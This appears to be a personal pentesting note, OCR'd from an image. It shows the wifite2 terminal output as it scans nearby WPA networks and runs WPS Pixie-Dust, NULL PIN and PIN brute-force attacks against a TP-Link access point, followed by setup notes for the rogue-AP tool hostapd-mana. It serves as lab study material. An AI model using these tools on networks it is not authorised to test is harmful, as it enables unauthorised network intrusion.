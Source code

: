 
sudo wifite --wpa 
   .               .    
 .´  ·  .     .  ·  `.  wifite2 2.7.0
 :  :  :  (¯)  :  :  :  a wireless auditor by derv82
 `.  ·  ` /¯\ ´  ·  .´  maintained by kimocoder
   `     /¯¯¯\     ´    https://github.com/kimocoder/wifite2

 [+] option: targeting WPA-encrypted networks
 [!] Conflicting processes: NetworkManager (PID 669), wpa_supplicant (PID 898)
 [!] If you have problems: kill -9 PID or re-run wifite with --kill                                                           

 [+] Using wlan0 already in monitor mode                                                                                      

   NUM                      ESSID   CH  ENCR    PWR    WPS  CLIENT                                                            
   ---  -------------------------  ---  -----   ----   ---  ------
     1                 AndroidAP     6  WPA-P   67db    no    1                                                               
     2           TP-Link_BBEC_5G   149  WPA-P   31db   yes    2                                                               
     3              TP-Link_BBEC     3  WPA-P   31db   yes    7                                                               
     4       (D0:1E:1D:17:D5:D1)    11  WPA     10db    no                                                                    
 [+] Select target(s) (1-4) separated by commas, dashes or all: 3                                                             

 [+] (1/1) Starting attacks against B0:A7:B9:E4:BB:EC (TP-Link_BBEC)
 [+] TP-Link_BBEC (44db) WPS Pixie-Dust: [4m15s] Failed: Reaver says "WPS pin not found"                                      
 [+] TP-Link_BBEC (37db) WPS NULL PIN: [--1s] Failed: Timeout after 300 seconds                                               
 [+] TP-Link_BBEC (32db) WPS PIN Attack: [10m22s PINs:4] (0.03%) Received M1 (Timeouts:31, Fails:7) ^C                        
 [!] Interrupted

 [+] 2 attack(s) remain
 [+] Do you want to continue attacking, or exit (c, e)? e
 [+] Finished attacking 1 target(s), exiting



## Hostapd-mana
### check for compatibility 
- vm setteings  
	- enable USB 3.0
- run command to check 
	- ``iw list  ``
- it should must  support 
```bash
Supported interface modes:
         * IBSS
         * managed
         * AP
         * AP/VLAN
         * monitor
         * mesh point 
```
### installing 
```bash
sudo apt install hostapd-mana 
```
###  Configuration 
- Locate the configuration file
```bash
/etc/hostapd-mana/hostapd-mana.conf 
```
